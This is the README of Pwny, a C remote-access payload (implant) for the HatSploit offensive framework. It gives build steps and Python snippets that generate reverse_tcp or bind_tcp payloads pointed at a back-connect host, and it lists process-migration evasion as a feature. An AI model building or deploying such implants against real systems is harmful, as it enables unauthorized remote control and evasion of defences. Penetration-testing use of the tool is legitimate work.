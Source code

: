 # Pwny

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/Pwny">
        <img src="https://img.shields.io/badge/language-C-grey.svg">
    </a>
    <a href="https://github.com/EntySec/Pwny/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/Pwny?color=yellow">
    </a>
</p>

Pwny is an implementation of an advanced native-code payload written in pure C and designed for portability, embeddability, and extensibility.

That repository contains Pwny, which is supposed to work on `macOS`, `Linux`, `Windows` and `Apple iOS`, but can be ported to almost every Posix system. Note that `Android` app will come soon with generic support of this native Pwny codebase and will be optimized to work with HatSploit Framework (Checkmate C2) as well as with Ghost Framework.

## Features

* Portable C code, that can be compiled for a big range of CPUs.
* Support for `macOS`, `Linux`, `Windows` and `Apple iOS` targets.
* Small executable with low resource utilization which is good on embedded systems.
* Dynamically-extendable, might load plugins which are shared libraries.
* Evasion techniques such as process migration.

## Installing

You should install HatSploit to get Pwny, because Pwny depends on HatSploit Framework.

```
pip3 install git+https://github.com/EntySec/HatSploit
```

## Building Pwny

These are platforms which are supported by Pwny.

### macOS

* Dependencies: patched SDKs from [here](https://github.com/phracker/MacOSX-SDKs).

```shell
make all platform=macos sdk=<path>
```

### Apple iOS

* Dependencies: patched SDKs from [here](https://github.com/theos/sdks).

```shell
make all platform=apple_ios sdk=<path>
make codesign
```

### Linux

```shell
make all platform=linux
```

**NOTE:** Specify `arch` if you want to cross-compile, but install compilers first. Example:

```shell
make cross
make all platform=linux arch=i586
```

### Windows

```shell
make all platform=windows
```

## Basic usage

To use Pwny and build payloads you should import it to your source.

```python3
from pwny import Pwny
from pwny.session import PwnySession
```

* `Pwny` - Pwny utilities, mostly for generating payloads and encoding arguments.
* `PwnySession` - Wrapper for `HatSploitSession` for Pwny, HatSploit should use it with Pwny payload.

To get Pwny template, you should call `get_template()`.

```python3
from pwny import Pwny

pwny = Pwny()
template = pwny.get_template('linux', 'x64')
```

To serialize Pwny config, you should call `serialize_config()`.

```python3
from pwny import Pwny

pwny = Pwny()
args = pwny.serialize_config({})
```

Here is a short list of Pwny config options:

* `host` - Pwny back connect host
* `port` - Pwny back connect (or bind) port
* `type` - Pwny connection type (bind_tcp, reverse_tcp)

To get Pwny executable, you should call `get_pwny()`.

```python3
from pwny import Pwny

pwny = Pwny()
executable = pwny.get_pwny('linux', 'x64', config)
```

**NOTE:** If you want Pwny to connect you should specify both `host` and `port`, but if you want Pwny to listen, you should specify only `port`.

To get Pwny phase, you should call `get_phase()`.

```python3
from pwny import Pwny

pwny = Pwny()
phase = pwny.get_phase('linux', 'x64')
```

## Adding Pwny payload

To add Pwny payload to HatSploit you should follow these steps.

* Write a basic HatSploit payload template.
* Import `Pwny` and `PwnySession` and put `Pwny` to `HatSploitPayload` class.
* Set payload parameter `Session` to `PwnySession`.
* Add `get_pwny()` with platform, architecture and config specified to the `run()`.

```python3
return self.get_pwny(
    self.details['Platform'],
    self.details['Architecture'],
    {
        'host': remote_host,
        'port': remote_port,
        'type': connection_type,
    }
)
```

* Add method `phase()` that will return shellcode that loads Pwny phase into the memory (see [Pwny Phase Stack](https://github.com/EntySec/Pwny/tree/main/docs/phase_stack.md)).
* Add method `implant()` and return `get_implant()` with platform and architecture from it.

You can find an example of implementing Pwny in the HatSploit Framework here - [Linux x64 Pwny Reverse TCP](https://github.com/EntySec/Pwny/blob/main/payload/linux/x64/pwny_reverse_tcp.py).

## Caveats

The code provided in this repository has not yet been prepared for use in a production environment. It can be improved anyways, so any contribution is welcome. Unfortunately, most part of the codebase is unstable due to the lack of testing. You can even experience memory leaks, so we'll be glad to accept every single PR which is fixing a potential issue.
